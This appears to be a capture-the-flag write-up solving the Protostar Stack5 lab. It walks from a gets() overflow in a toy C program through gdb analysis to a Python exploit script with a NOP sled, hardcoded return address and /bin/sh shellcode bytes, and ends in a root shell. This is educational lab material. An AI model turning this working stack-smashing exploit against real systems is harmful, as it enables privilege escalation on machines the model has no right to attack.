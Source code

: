 Our goal is to solve this explotation challenge <i> [Stack5](https://exploit.education/protostar/stack-five/)</i>


# Code to exploit 
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}


```
## Problem of code
This is a standard buffer overflow challenge. We will redirect code execution to stack and we will use a shellcode

We will execute the programm with gdb to have a view of the assembly code and memory.

```c
(gdb) disassemble main
Dump of assembler code for function main:
0x080483c4 <main+0>:	push   %ebp
0x080483c5 <main+1>:	mov    %esp,%ebp
0x080483c7 <main+3>:	and    $0xfffffff0,%esp
0x080483ca <main+6>:	sub    $0x50,%esp
0x080483cd <main+9>:	lea    0x10(%esp),%eax
0x080483d1 <main+13>:	mov    %eax,(%esp)
0x080483d4 <main+16>:	call   0x80482e8 <gets@plt>
0x080483d9 <main+21>:	leave  
0x080483da <main+22>:	ret    
End of assembler dump.

```

We insert a break point before the return-instruction and then we print the stack 

We pass as programm input a huge string "AAAABBBBCCCC..." and then we see that the 
return address is overwritten with 0x54545454.


```c
(gdb) b * main+22
Breakpoint 1 at 0x80483da: file stack5/stack5.c, line 11.
(gdb) r < /home/user/tmp 
Starting program: /opt/protostar/bin/stack5 < /home/user/tmp

(gdb) x/10xw$esp
0xbffff6dc:	0x54545454	0x55555555	0x56565656	0x57575757
0xbffff6ec:	0x58585858	0x59595959	0x5a5a5a5a	0xb7ffef00
0xbffff6fc:	0x08048232	0x00000001



```


We know that the ASCII value 0x54 is letter T so our exploit string will be 
"AAAABBBBCCCC....SSSS"+ the address of our shell-code + the shell-code

We will put our shellcode 32 (random number) bytes after $esp and we will use a lot of NOPs
hoping we will hit one of the NOP

And then with this python code we will do the final explotation

```python
import struct

#This function generates a string like AAAABBBBCCCC so that we can find some information 
#when we overflow gets function. Characters like AAAABBBBCCCC have easy to recognise hex values

def create_overflow_string(size):
        string = ""
        for i in range(size):
                if (i <26):
                        string = string + str(chr(65+i))*4
        return string

RANDOM_STRING_OVERFLOW = False
#RANDOM_STRING_OVERFLOW = True


#Find stack information
if (RANDOM_STRING_OVERFLOW == True ):
        string = create_overflow_string(26)
        print(string)

#Actual exploit
else:
        string = create_overflow_string(26)

        string =  string.split("TTTT")[0]

        #EIP points to next word
        EIP = struct.pack("I",0xbffff6e0+32)
#       Copy shellcode from https://shell-storm.org/shellcode/files/shellcode-851.php
        code = "\x90"*100 +"\x31\xc9\xf7\xe9\x51\x04\x0b\xeb\x08\x5e\x87\xe6\x99\x87\xdc\xcd\x80\xe8\xf3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x2f\x73\x68"

        print (string+EIP+code)



```

https://unix.stackexchange.com/questions/297560/cat-into-stdin-then-pipe-into-program-keeps-forked-shell-open-why

Finally we execute like this:

```
user@protostar:~$ cat <(python stack5.py) - | /opt/protostar/bin/stack5
ls -all
total 25
drwxr-xr-x 2 user user  140 Sep 29 03:52 .
drwxr-xr-x 6 root root   60 Oct 31  2012 ..
-rw-r--r-- 1 user user  220 Apr 10  2010 .bash_logout
-rw-r--r-- 1 user user 3184 Apr 10  2010 .bashrc
-rw-r--r-- 1 user user  675 Apr 10  2010 .profile
-rw-r--r-- 1 user user   19 Sep 29 03:45 cat
-rw-r--r-- 1 user user   37 Sep 29 03:20 formatexploit
-rw-r--r-- 1 user user 1047 Sep 29 03:52 stack5.py
-rw-r--r-- 1 user user  219 Sep 29 03:41 stack6
-rw-r--r-- 1 user user 1120 Sep 29 03:38 stack6.py
whoami
root


```

